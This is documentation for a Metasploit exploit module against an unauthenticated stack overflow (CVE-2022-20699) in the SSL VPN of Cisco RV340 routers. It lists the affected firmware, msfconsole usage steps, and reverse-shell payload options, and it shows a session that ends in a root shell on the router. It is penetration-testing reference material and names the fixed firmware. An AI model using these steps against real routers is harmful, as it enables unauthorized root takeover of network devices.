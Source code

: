## Description

This module exploits a stack buffer overflow ([CVE-2022-20699](https://nvd.nist.gov/vuln/detail/CVE-2022-20699)) in the [Cisco RV series](https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-smb-mult-vuln-KA9PK6D.html) routers SSL VPN functionality. The default SSL VPN configuration is exploitable, with no authentication required and works over the Internet as seen in [this video](https://www.youtube.com/watch?v=O1uK_b1Tmts)!

The stack is executable and no ASLR is in place, which makes exploitation easier.
Successful execution of this module results in a reverse root shell. A custom payload is used as Metasploit does not have ARMLE null free shellcode.
This vulnerability was presented by the [Flashback Team](https://twitter.com/flashbackpwn) in [Pwn2Own Austin 2021](https://www.thezdi.com/blog/2021/11/1/pwn2ownaustin) and [OffensiveCon 2022](https://www.offensivecon.org/speakers/2022/radek-domanski-and-pedro-ribeiro.html).

This module has been tested in firmware versions 1.0.03.15 and above and works with around 65% reliability. The service restarts automatically so you can keep trying until you pwn it.

Only the [RV340 router](https://www.cisco.com/c/en/us/products/routers/rv340-dual-gigabit-wan-vpn-router/index.html) was tested, but other RV series routers should work out of the box.

For more information, check the advisory [here](https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Austin_2021/flashback_connects/flashback_connects.md) and [here](https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Austin2021/flashback_connects/flashback_connects.md).


## Vulnerable Application

Cisco RV340 Router, firmware versions 1.0.03.24 and below. The bug is fixed in 1.0.03.26 and above.

## Verification Steps

  1. Connect to the target on the WAN interface (or provide IP address)
  2. Make sure the SSLVPN service is turned on for the correct WAN interface
  2. Start msfconsole
  3. Do: `use exploits/linux/misc/cisco_rv340_sslvpn.rb`
  4. Set RHOST, RPORT, LHOST and LPORT
  5. Do `check`
  6. Do: `run`
  7. You should get a shell.

## Options
```
Module options (exploit/linux/misc/cisco_rv340_sslvpn):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8443             yes       The target port (TCP)
   SSL      true             yes       Use SSL
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   ARGV0  sh               no        argv[0] to pass to execve
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The shell to execute.


Exploit target:

   Id  Name
   --  ----
   0   Cisco RV340 Firmware Version <= 1.0.03.24
```

## Scenarios
```
msf exploit(linux/misc/cisco_rv340_sslvpn) > check
[*] 5.55.55.62:8443 - The service is running, but could not be validated.
msf exploit(linux/misc/cisco_rv340_sslvpn) > exploit

[*] Started reverse TCP handler on 5.55.55.1:4445
[*] 5.55.55.62:8443 - 5.55.55.62:8443 - Pwning Cisco RV340 Firmware Version <= 1.0.03.24
[*] Command shell session 30 opened (5.55.55.1:4445 -> 5.55.55.62:41976 ) at 2022-02-10 20:12:18 +0000

id
uid=0(root) gid=0(root)
uname -a
Linux router138486 4.1.8 #2 SMP Fri Oct 22 09:50:26 IST 2021 armv7l GNU/Linux
```
